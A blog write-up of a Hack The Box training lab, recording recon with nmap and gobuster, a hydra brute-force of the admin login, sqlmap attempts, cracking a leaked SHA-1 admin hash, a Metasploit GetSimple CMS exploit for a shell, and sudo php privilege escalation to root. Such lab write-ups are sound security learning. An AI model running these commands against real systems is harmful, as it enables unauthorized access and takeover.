 ```yaml
---
title: "HTB Getting Started: Knowledge Check Writeup"
date: 2023-05-01T15:26:31+02:00
draft: false
toc: false
images:
tags: 
  - htb
  - writeup
---
```


**These are my notes from getting into the "Knowledge Test" machine, from the "Getting Started" academy module in Hack The Box.**

# Target info
- Target ip: 10.129.116.132

Did an nmap scan `nmap -sV --open -A 10.129.116.132 > initial_scan.txt`
# Ports
```nmap-scan
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to GetSimple! - gettingstarted
|_http-robots.txt: 1 disallowed entry 
|_/admin/
```

Checked the website with `Crtl + u` on Firefox. Found the host `gettingstarted.htb`. Added it to `/etc/hosts`.
It also says that the website uses the GetSimple CMS.
/admin/ seems interesting. Let's check it out.
There is a login portal for admins.
Performing a gobuster scan. Found the following interesting paths:
```gobuster-scan
/plugins
/data
/backups
```

Found a plugin `InnovationPlugin` in `/plugins`. Let's search for vulns.
Nothing for the plugin, but found something, [this exploit](https://www.exploit-db.com/exploits/40008) for the Getsimple CMS.
We don't know the version of the plugin, so let's see if it's vulnerable and try to get a reverse shell.
So, we can use it, after we login to the admin page. We have our way in, now we need to find a way to get the admin password, or login to the admin panel in some other way. I'll try hydra, and see if there is no blacklisting in place.
Let's build the command. First let's get rockyou.
The request for login has the format:
`http://gettingstarted.htb/admin/index.php?userid=username&pwd=password&submitted=Login`
Let's try
hydra -L ~/gs/user-dict.txt -P ~/rockyou/rockyou.txt gettingstarted.htb http-form-post '/admin/index.php:userid=^USER^&pwd=^PASS^&submitted=Login:F=Login failed. Please double check'
A lof of false positives, not sure why. Probably overloaded the server, needed to restart the machine. The found passwords don't seem to work.

Trying SQLMAP with a request copied from burp.
`sqlmap -r gs/login_r.txt -p pwd --risk 3 --level 5 --batch`
SQMap scan complete, doesn't seem to be injectable. Gonna retry with the user param.
`sqlmap -r gs/login_r.txt -p userid --risk 3 --level 5 --batch`
SQLMAP in progress #tochange

Found admin credentials while going trough the /data subfolder in:
`http://gettingstarted.htb/data/users/admin.xml`
No idea why I didn't try this sooner. It's always the easy answer, isn't it?
```xml
<item>
	<USR>admin</USR>
	<NAME/>
	<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
	<EMAIL>admin@gettingstarted.com</EMAIL>
	<HTMLEDITOR>1</HTMLEDITOR>
	<TIMEZONE/>
	<LANG>en_US</LANG>
</item>
```
So we got the credential pair of
admin:d033e22ae348aeb5660fc2140aec35850c4da997
The password in this format doesn't work. It's probably hashed, or encoded. Let's try decoding it first with cyberchef, and if that doesn't work, we try hashcat.
Decoding in cyberchef doesn't seem to work. Let's try to identify the type of hash then. 
`hashidentifier d033e22ae348aeb5660fc2140aec35850c4da997`
gives the following results
```hashindentifier-results
Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```
Ok. I would guess it's SHA1 or MySQL5 SHA-1. Let's try to crack both in rockyou with hashcat and see how it goes.
`hashcat -m 100 -a 3 -o outhash.txt d033e22ae348aeb5660fc2140aec35850c4da997`
It was indeed SHA1. The cracked hash is `admin`. Admin. Really? I could've checked that. xD
Let's use the exploit we found earlier to gain a shell.
Seems like the button is broken, due to Flash Player getting discontinued. Let's try to find vulns in metasploit. Found `exploit/multi/http/getsimplecms_unauth_code_exec`
Let's try that
Okay, the exploit worked, I got a shell. Upgraded it with
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
We are logged in as the `www-data` user. We have enough privelage, to get the user flag from `/home/mrb3n/user.txt`, so we cat it out. Nice.

# Privelage Escalation
Let's try `LinEnum.sh` first, since this is what HTB reccomended.
But before that, it would be nice to check if we can get an SSH session going.
We cannot. Before even uploading the script, I checked for what we can do as root without a password, with `sudo -l`
Bingo! We can run `/usr/bin/php` from the current user. Let's try to leverage that.
GTFOBins shows us that we can use `sudo php -r "system('/bin/bash');"` to get sudo access. Let's try that.
And it worked! We cat the flag
`cat /root/root.txt`

# Summary
## Path taken
1. Recon
2. Use metasploit to get a shell
3. Get the user flag
4. Use PHP to escalate the privelages to root
5. Get the root flag
## Conclusions
Should probably see everything I can with the browser and Burp, before moving on to automated tools. Check every potential file of interest.
